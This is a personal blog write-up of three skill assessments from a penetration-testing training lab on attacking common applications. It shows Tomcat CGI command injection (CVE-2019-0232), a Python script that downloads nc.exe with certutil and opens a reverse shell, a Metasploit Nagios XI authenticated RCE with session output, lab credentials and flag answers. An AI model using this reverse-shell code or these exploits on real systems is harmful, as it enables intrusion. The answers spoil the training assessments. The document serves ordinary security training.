Hi there !!! quite a long time no see huh…. I have done my semester this week. there were soo many things to handle… But im back again with this write-up. 

As you can see in the title... This module took me a few days to complete cuz it contains lots of sections !! and well im also newbie too. But i able to solve its skill assessment by myself with all the material during the module. Attacking common applications has three skill assessments. But dont worry it is not that hard !!!.

Finally I hope you can solve it by yourself from researching or look back at all the sections maybe there are some things you missed. Alright, that is all the things i want to share to you in this blog…. 

Let's go straight into my WU.

# Skill Assessment 1

What’s new here ???

Now i have been trying to create a checklist. I think it should help us in the pentest process. Also help me to check what i have done. If you actually read this blog i hope you can give me better recommendations on the way i take notes!!!

## 📄 PRE-ENGAGEMENT / PLANNING

- [x]  Target
    
    **`10.129.25.36`**
    

---

## 🔍 RECON  (Passive)

- [x]  Tech stack fingerprint



---

## ⚙️ SCANNING & ENUMERATION

### Network

- [x]  Port scan (TCP/UDP)
- [x]  Service version detect
- [x]  SMB / SNMP / LDAP / FTP enum
- [x]  Firewall / WAF detect

- Nmap result
    
    ```python collapse={11-67}
    ┌──(kali㉿kali)-[~]
    └─$ sudo nmap  -sC -sV -T5   10.129.24.194 
    [sudo] password for kali: 
    Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-03 00:42 -0500
    Warning: 10.129.24.194 giving up on port because retransmission cap hit (2).
    Nmap scan report for 10.129.24.194 (10.129.24.194)
    Host is up (0.26s latency).
    Not shown: 990 closed tcp ports (reset)
    PORT     STATE SERVICE       VERSION
    21/tcp   open  ftp           Microsoft ftpd
    | ftp-syst: 
    |_  SYST: Windows_NT
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_09-01-21  07:07AM       <DIR>          website_backup
    80/tcp   open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Freight Logistics, Inc
    |_http-server-header: Microsoft-IIS/10.0
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=APPS-SKILLS1
    | Not valid before: 2025-12-08T11:28:27
    |_Not valid after:  2026-06-09T11:28:27
    |_ssl-date: 2026-02-03T06:43:36+00:00; +1h00m00s from scanner time.
    | rdp-ntlm-info: 
    |   Target_Name: APPS-SKILLS1
    |   NetBIOS_Domain_Name: APPS-SKILLS1
    |   NetBIOS_Computer_Name: APPS-SKILLS1
    |   DNS_Domain_Name: APPS-SKILLS1
    |   DNS_Computer_Name: APPS-SKILLS1
    |   Product_Version: 10.0.17763
    |_  System_Time: 2026-02-03T06:43:26+00:00
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    8000/tcp open  http          Jetty 9.4.42.v20210604
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    |_http-server-header: Jetty(9.4.42.v20210604)
    | http-robots.txt: 1 disallowed entry 
    |_/
    8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.0.M1
    |_http-server-header: Apache-Coyote/1.1
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2026-02-03T06:43:26
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: 59m59s, deviation: 0s, median: 59m59s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 56.27 seconds
    
    ```
    

### Web

- [x]  Directory brute force

```python
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ ffuf -u http://10.129.25.36/FUZZ -w Web-Content/raft-large-directories.txt -t 1500 -a
....................................snip.......................................

aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 277ms]
assets                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 304ms]

```

```python
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ ffuf -u http://10.129.25.36/aspnet_client/FUZZ  -w Web-Content/raft-large-directories.txt -t 1500 -ac
....................................snip.......................................
....................................snip.......................................
....................................snip.......................................

system_web              [Status: 301, Size: 168, Words: 9, Lines: 2, Duration: 268ms]

```

- [x]  Parameter discovery

---

## 5. 🧠 VULNERABILITY

- [x]  tomcat service

### Web

- [x]  Command injection
- [x]  Reverse shell

### Network

- [x]  Outdated services

---

## Checking tomcat service `Apache Tomcat/9.0.0.M1`

```python
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.0.M1
|_http-server-header: Apache-Coyote/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Those above 3 questions can be solve if you did the nmap !

### Answer

- `What vulnerable application is running?`
    - tomcat
- `What port is this application running on?`
    - 8080
- `What version of the application is in use?`
    - 9.0.0.M1
    
    Notice that current  version of tomcat can be  remote code execution through Tomcat CGI
    
    Check out this : `CVE-2019-0232`
    
    Now we can do **Finding a CGI script**
    
    ```python
    ┌──(kali㉿kali)-[~/Downloads/Wordlist]
    └─$ ffuf -u http://10.129.25.36:8080/cgi//FUZZ.bat -w common.txt -t 500 -ac
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.1.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.129.25.36:8080/cgi//FUZZ.bat
     :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/common.txt
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 500
     :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    ________________________________________________
    
    cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2028ms]
    :: Progress: [4686/4686] :: Job [1/1] :: 326 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
    
    ```
    
    Nice we got the `.bat` file
    

## Command injection

With `cmd.bat` file

We can command injection by expanding the command with parameter `&`
For example if we have hello.bat above

```python
@echo off
echo Content-Type: text/plain
echo.
echo Hi, %1
```

And we add another paramater  `hello.bat?name=Long&whoami`

So the command execute in cmd will be something look like this !

```python
Long & whoami
Long
LongRoot\admin
```

```python
http://10.129.25.36:8080/cgi/cmd.bat?&dir
```

For more information read :  [NVD - CVE-2019-0232](https://nvd.nist.gov/vuln/detail/CVE-2019-0232)



## Reverse shell

Now we maybe wish to have `rce`because I realized that with just .bat file we cant arbitrary execute commands we want !! 
Like `cd /`



### Open `netcat`

```python
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ nc -lnvp 2210
listening on [any] 2210 ...
```

### Host your Python Web Server

```python
┌──(kali㉿kali)-[~/Downloads/tool]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.25.36 - - [03/Feb/2026 05:11:50] "GET /nc.exe HTTP/1.1" 200 -
```

Notice that at this step you need `nc.exe` must be in the same `dir`with your python web server. Im using kali linux so above is the way is get `nc.exe`

```python
┌──(kali㉿kali)-[~/Downloads/tool]
└─$ cp /usr/share/windows-resources/binaries/nc.exe ~/Downloads/tool/nc.exe
```

Without nc.exe file you cant run the reverse shell script above 



### Python script for Reverse shell

```python
#!/usr/bin/env python3
import time
import requests
host='10.129.25.36'#add Target host to connect
port='8080'#add port of target host {default:8080} I mean the port of tomcat service which it is running on
server_ip='10.10.14.64'#Your ip address that has nc.exe file to get reverse shell
server_port='80'  # your python server port
nc_port='2210' # your netcat port 
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
try:
    requests.get("http://" + url1)
    time.sleep(2)
    requests.get("http://" + url2)
    print(url2)
except:
    print("Some error occured in the script")
```



Success moment after running things correctly



```python
C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
f55763d31a8f63ec935abd07aee5d3d0
```

Flag : `f55763d31a8f63ec935abd07aee5d3d0`

# Skill Assessment 2

## 1. 📄 PRE-ENGAGEMENT / PLANNING

- [x]  Scope (IP, domain, subdomain, app, internal/external)
    - [x]  blog.inlanefreight.local
    - [x]  monitoring.inlanefreight.local
    - [x]  gitlab.inlanefreight.local

---

## 2. 🔍 RECON

- [x]  Tech stack fingerprint

Blog :



Monitoring:



Gitlab:



---

## 3. 🌐 ASSET DISCOVERY

### Subdomain

- [x]  Active DNS bruteforce

### VHOST

- [x]  VHOST fuzz via Host header
- Vhost Scanning
    
    ```python
    ```python
    ┌──(kali㉿kali)-[~/Downloads/Wordlist]
    └─$ ffuf -u http://inlanefreight.local/  -H "Host: FUZZ.inlanefreight.local" -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 500 -ac
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.1.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://inlanefreight.local/
     :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
     :: Header           : Host: FUZZ.inlanefreight.local
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 500
     :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    ________________________________________________
    
    blog                    [Status: 200, Size: 50118,Words:16140,Lines:1015,Duration: 379ms]
    gitlab                  [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 268ms]
    monitoring              [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 7719ms]
    
    ```
    ```
    

---

## 5. 🧠 VULNERABILITY

- [x]  OS command injection
- [x]  Outdated services

---

## What is the URL of the WordPress instance?

```python
http://blog.inlanefreight.local
```

## What is the name of the public GitLab project?



`Virtualhost`

## What is the FQDN of the third vhost?

`monitoring.inlanefreight.local`

## What application is running on this third vhost? (One word)

`nagios`

## What is the admin password to access this application?

```python collapse={11-39}
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ nmap -sC -sV monitoring.inlanefreight.local            
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-03 12:58 -0500
Nmap scan report for monitoring.inlanefreight.local (10.129.26.20)
Host is up (0.29s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: skills2, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login &middot; Nagios XI
|_Requested resource was http://monitoring.inlanefreight.local/nagiosxi/login.php?redirect=/index.php%3f&noauth=1
|_http-server-header: Apache/2.4.41 (Ubuntu)
389/tcp  open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http Apache httpd 2.4.41
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.41 (Ubuntu)
| ssl-cert: Subject: commonName=10.129.201.90/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2021-09-02T01:49:48
|_Not valid after:  2031-08-31T01:49:48
8180/tcp open  http     nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://monitoring.inlanefreight.local:8180/users/sign_in
| http-robots.txt: 54 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /help /s/ /-/profile /-/ide/ 
|_/*/new /*/edit /*/raw
Service Info: Hosts:  skills2, 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.99 seconds
```

Create a new `gitlab` account checking around help me find the credentials of  `Nagios XI` admin

It locate at  `http://monitoring.inlanefreight.local:8180/root/nagios-postgresql/-/blob/master/INSTALL`



> `oilaKglm7M09@CPL&^lC`
> 
> 
> 
> 

## Obtain reverse shell access on the target and submit the contents of the flag.txt file.

Credential

```python
username: nagiosadmin
password: oilaKglm7M09@CPL&^lC
```

I found that `nagios` can also be RCE so first let check the version of `nagios`



Version 5.7.5

[NVD - CVE-2021-25298](https://nvd.nist.gov/vuln/detail/CVE-2021-25298)

[NVD - CVE-2021-25297](https://nvd.nist.gov/vuln/detail/CVE-2021-25297)

[NVD - CVE-2021-25296](https://nvd.nist.gov/vuln/detail/CVE-2021-25296)

https://github.com/fs0c-sh/nagios-xi-5.7.5-bugs

https://github.com/rapid7/metasploit-framework/pull/17494

Found that there are 3 CVEs can help me do RCE 
But for convenient im using `metaploit`in this one

```python
msf >  use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > 
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 10.129.27.105
RHOSTS => 10.129.27.105
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 80
RPORT => 80
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set Password oilaKglm7M09@CPL&^lC
Password => oilaKglm7M09@CPL&^lC
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_URL_PARAM plugin_output_len
[!] Unknown datastore option: TARGET_URL_PARAM. Did you mean TARGETURI?
TARGET_URL_PARAM => plugin_output_len
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 10.10.14.64
LHOST => 10.10.14.64
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 4444
LPORT => 4444
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

```

```python
[*] Started reverse SSL handler on 10.10.14.64:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (10.10.14.64:4444 -> 10.129.27.105:53050) at 2026-02-04 01:54:01 -0500
ls -la ../admin
total 1244
.....................................snip.....................................
-rw-r--r--  1 root   root       33 Sep  3  2021 f5088a862528cbb16b4e253f1809882c_flag.txt
.....................................snip.....................................

cat ../admin/f5088a862528cbb16b4e253f1809882c_flag.txt
afe377683dce373ec2bf7eaf1e0107eb
```

Flag : `afe377683dce373ec2bf7eaf1e0107eb`

# Skill Assessment 3

Well last one quite simple just follow my steps 

Access to Window machine

```python
xfreerdp3 /v:10.129.95.200 /u:Administrator /p:"xcyj8izxNVzhf4z"

```

Open this tool on virtual machine



And investigate `MultimasterAPI.dll`



 `What is the hardcoded password for the database connection in the MultimasterAPI.dll file?`

> `D3veL0pM3nT!`
> 

Damn so that is it !!! like what i said ? NOT THAT HARD !!! just keep patient

Alright so if you have any advice or recommendation dont hesitate to mail me through 

`longduiga0123@gmail.com`

I check it every night !!